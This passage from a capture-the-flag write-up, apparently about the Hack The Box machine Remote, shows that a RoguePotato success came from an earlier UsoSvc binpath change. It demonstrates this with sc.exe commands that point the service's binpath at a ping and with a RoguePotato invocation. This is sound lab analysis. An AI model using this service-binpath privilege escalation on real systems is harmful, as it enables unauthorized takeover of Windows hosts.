 

There are connections coming into my host on 135, but my host is just
returning TCP resets (because the port isn't open / listening).

### Solution

I had a quick chat with decoder and he identified what was going on.
Earlier in the video, IppSec roots Remote by modifying the UsoSvc binary
path, changing it to some PowerShell that will download a shell from his
host and run it. I showed this privesc path as an unintended path for
[RE](/htb-re.md#path-1-abuse-usosvc), and it works here on
Remote as well (I assume unintended). Later, when guessing at CLSIDs
trying to make RoguePotato work, he noticed UsoSvc, and decides to try
that CLSID. Then he gets a shell.

When `RoguePotato.exe` runs, it invokes the service of the corresponding
CLSID, so it isn't RoguePotato that is getting execution, but reverse
shell in the UsoSvc.

To demonstrate, I'll change the service `binpath` to a ping:



    PS C:\programdata> sc.exe config UsoSvc binpath= "ping -n 1 10.10.14.9" 
    [SC] ChangeServiceConfig SUCCESS 



I'll stop and start the service, and on starting, it reports failure,
but one ping comes back:



    PS C:\programdata> sc.exe stop UsoSvc

    SERVICE_NAME: UsoSvc
            TYPE               : 30  WIN32
            STATE              : 3  STOP_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x3
            WAIT_HINT          : 0x7530
            
    PS C:\programdata> sc.exe start UsoSvc
    [SC] StartService FAILED 1053:

    The service did not respond to the start or control request in a timely fashion.



Now I'll run `RoguePotato.exe` with a payload that doesn't ping, but
just echos:



    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "echo oops" -l 9999



Immediately there is ICMP traffic at `tcpdump`. After a few seconds,
RoguePotato reports failure, with no failed attempts to contact my host
on TCP 135. When the service is broken (via the modified `binpath`), it
isn't making the connection to the Oxid resolver and RoguePotato fails.





